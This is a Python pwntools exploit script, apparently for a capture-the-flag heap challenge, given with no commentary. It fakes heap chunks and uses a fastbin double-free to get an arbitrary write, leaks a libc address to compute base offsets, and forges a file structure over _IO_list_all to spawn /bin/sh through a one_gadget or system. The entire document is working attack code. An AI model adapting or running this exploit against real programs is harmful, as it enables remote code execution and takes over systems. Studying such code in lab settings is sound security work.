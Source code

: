 ```python
create(0, b"") # 1
create(0, b"") # 2

payload =  b""
payload += p64(0) + p64(0x21)
payload =  payload.ljust(0x100, b"\x00")
change(payload)

delete(0)
delete(1)
delete(0)

create(8, p64(0x602040)) # 3
create(0, b"")           # 4
create(0, b"")           # 5
create(0, b"")           # 6

payload =  b""
payload += p64(0) + p64(0x91)
payload += b"\x00" * 0x88
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
assert(len(payload) <= 256)
change(payload)

delete(6)

data = b"A" * 15
change(data)
io.recvuntil(b"A\n")
leak = io.recv(6)
leak = u64(leak + b"\x00\x00")
print(f"[+] leak: 0x{leak:x}")
base = leak - 0x3c4b78
print(f"[+] base: 0x{base:x}")

victim = base + 0x3c5520 - 0x10
print(f"[+] victim: 0x{victim:x}")

if args.SYSTEM:
    shell = base + 0x45390
else:
    shell = base + 0xf1147
print(f"[+] shell: 0x{shell:x}")

size = 0x60
payload =  b""
payload += b"/bin/sh\x00" + p64(size | 1)
payload += p64(leak) + p64(victim)
payload += p64(0) + p64(1)
payload =  list(payload.ljust(0x100, b"A"))
payload[0xc0:0xc8] = p64(0)
payload[0xd8:0xe0] = p64(0x602080)
payload[0x58:0x60] = p64(shell)
payload = bytes(payload)
assert(len(payload) <= 256)
change(payload)

io.sendlineafter(delim, b"1")
io.sendlineafter(delim, b"0")

io.interactive()
```